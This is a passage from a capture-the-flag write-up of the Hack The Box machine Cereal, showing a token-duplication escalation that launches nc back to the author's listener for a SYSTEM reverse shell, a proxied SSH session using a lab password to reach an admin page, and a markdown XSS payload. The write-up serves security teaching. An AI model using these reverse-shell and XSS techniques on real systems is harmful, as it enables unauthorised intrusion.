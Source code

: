 
It receives a request from a process running as SYSTEM, duplicates the token,
launches `nc`, and exits. At my `nc` listener, it returns a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 51109
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32> whoami
    nt authority\system
    

And I can grab the final flag:

    
    
    PS C:\users\administrator\desktop> type root.txt
    712cc9bf************************
    

## Beyond Root

My theory was that I couldn’t access `/admin` on the main page because of the
IP restrictions. Once I had SSH as sonny, I wanted to test that. I connected
the SSH using `-D` to create a socks proxy going over the SSH session:

    
    
    oxdf@parrot$ sshpass -p 'mutual.madden.manner38974' ssh sonny@10.10.10.217 -D 8888
    Microsoft Windows [Version 10.0.17763.1817]
    (c) 2018 Microsoft Corporation. All rights reserved. 
    
    sonny@CEREAL C:\Users\sonny>
    

I created a new proxy in FoxyProxy:

![image-20210527145430876](https://0xdfimages.gitlab.io/img/image-20210527145430876.png)

When I enable this, it will try to proxy all Firefox traffic through localhost
port 8888. I’ll file a couple cereal requests (they seem to get cleared as the
admin views them), and then load `/admin`. It worked!

![image-20210527145530251](https://0xdfimages.gitlab.io/img/image-20210527145530251.png)

    
    
    [XSS](javascript: document.write%28%22<script>alert(1)</script>%22%29)
    

[Unintended Root »](/2021/05/31/htb-cereal-unintended.html)

[](/2021/05/29/htb-cereal.html)

